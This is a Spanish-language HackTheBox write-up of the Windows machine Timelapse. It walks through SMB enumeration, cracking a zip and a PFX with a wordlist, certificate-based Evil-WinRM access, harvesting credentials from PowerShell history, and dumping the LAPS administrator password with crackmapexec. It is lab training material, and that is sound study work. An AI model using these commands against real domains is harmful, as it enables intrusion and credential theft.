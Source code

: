 ```yaml
---
layout: post
title:  "Maquina Timelapse | HTB Write-Up"
description: Empezaremos con el Write-Up de la maquina de HackTheBox llamada Timelapse.
tags: HTB, Facil, Windows
---
```


# Timelapse ~ Hack The Box

Machine IP: 10.10.11.152

## Reconocimiento

Comienzo el reconocimiento de puertos y versiones:

```bash
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-10-27 00:33:41Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2023-10-27T00:35:13+00:00; +7h59m59s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49696/tcp open  msrpc             Microsoft Windows RPC
```

Enseguida realizo un reconocimiento al servicio SMB utilizando SMBMAP:

```bash
smbmap -H 10.10.11.152 -u 'null'
```

```bash
[+] IP: 10.10.11.152:445	Name: timelapse.htb       	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share 
	Shares                                            	READ ONLY	
	SYSVOL                                            	NO ACCESS	Logon server share 
```

Me conecto al directorio **Shares** con **smbclient**:

```bash
smbclient //10.10.11.152/Shares -N
```

Encuentro dos directorios:

```bash
  Dev                                 D        0  Mon Oct 25 16:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 12:48:42 2021
```

## Explotación de vulnerabilidades

Dentro del directorio **Dev** se encuentra un Zip que descargo en mi maquina local, el Zip requiere una password para ser extraido. Asi que con **fcrackzip** le realizo un ataque de fuerza bruta para intentar descifrar la password:

```bash
❯ fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip
found file 'legacyy_dev_auth.pfx', (size cp/uc   2405/  2555, flags 9, chk 72aa)
checking pw udehss                                  

PASSWORD FOUND!!!!: pw == supremelegacy
```

Al extraer el Zip se encuentra un archivo **.pfx** el cual tambien requiere una password para ser utilizado.

Para descifrar la password tambien utilizare un ataque por fuerza bruta, en este caso utilizando [crackpkcs12](https://github.com/crackpkcs12/crackpkcs12).

```bash
❯ crackpkcs12 -d /usr/share/wordlists/rockyou.txt legacyy_dev_auth.pfx

Dictionary attack - Starting 12 threads

*********************************************************
Dictionary attack - Thread 10 - Password found: thuglegacy
*********************************************************
```

Ahora procedo a generar una clave privada (.pem) con el .PFX:

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -out priv-key.pem -nodes
```

Y tambien un certificado:

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificate.pem
```

Ahora utilizando Evil-WinRM nos conectamos utilizando los .pem:

```bash
❯ evil-winrm -i 10.10.11.152 -c certificate.pem -k priv-key.pem -S
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
```


> Importante destacar que en el comando de Evil-WinRM se utiliza la flag **-S** indicado que es SSL, ya que nos estamos conectando al puerto 5986 que es el que requiere SSL, si no ponemos esta flag, nos concetara al 5985 que es sin SSL. Y en este caso no funcionaria.

Y solo queda buscar la User-Flag antes de escalar privilegios:

```bash
*Evil-WinRM* PS C:\Users\legacyy\Desktop> dir


    Directory: C:\Users\legacyy\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       10/26/2023   5:32 PM             34 user.txt


*Evil-WinRM* PS C:\Users\legacyy\Desktop> type user.txt
6f72b366************************
```
## Escalada de privilegios

Para la escalada de privilegios lo primero que hice fue revisar el historial de la PowerShell:

```bash
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\Co
nsoleHost_history.txt
```

Y enseguida encontre lo que parecen ser credenciales para **svc_deploy**:

```bash
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

Ahora simplemente utilizando Evil-WinRM me conecto como el usuario **svc_deploy**:

```bash
evil-winrm -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

Estando conectado como **svc_deploy** realizo un `net user` para revisar permisos:

```python
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> net user svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 12:25:53 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```

Enseguida me llama la atencion el de **LAPS_Readers**, leyendo en Google, LAPS **permite administrar la contraseña del Administrador Local.**

Asi que busco alguna manera de aprovecharme de este privilegio.

Finalmente leyendo en [Hacktricks](https://book.hacktricks.xyz/v/es/windows-hardening/active-directory-methodology/laps)opto por utilizar crackmapexec para extraer la contraseña. Esto se realiza desde la terminal de Linux, ya que acá simplemente utilizaremos las credenciales que ya obtuvimos de **svc_deploy**

```bash
❯ crackmapexec ldap 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' --kdcHost 10.10.11.152 -M laps
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.152    389    DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV 
LAPS        10.10.11.152    389    DC01             [*] Getting LAPS Passwords
LAPS        10.10.11.152    389    DC01             Computer: DC01$                Password: 8hQ]W)p5@MeKIl.IHjuD%tAu
```

Una vez obtenida me vuelvo a conectar con Evil-WinRM utilizando el usuario Administrator:

```bash
❯ evil-winrm -i 10.10.11.152 -u 'Administrator' -p '8hQ]W)p5@MeKIl.IHjuD%tAu' -S
```

**ROOT SHELL OBTENIDA**

Ahora solo queda ir por la flag:
```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd C:\Users\Administrator\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cd C:\Users\TRX\Desktop
*Evil-WinRM* PS C:\Users\TRX\Desktop> dir


    Directory: C:\Users\TRX\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       10/26/2023   5:32 PM             34 root.txt


*Evil-WinRM* PS C:\Users\TRX\Desktop> type root.txt
8c3739d6********************
```
Con esto la maquina queda finalizada.

Happy Hacking!!


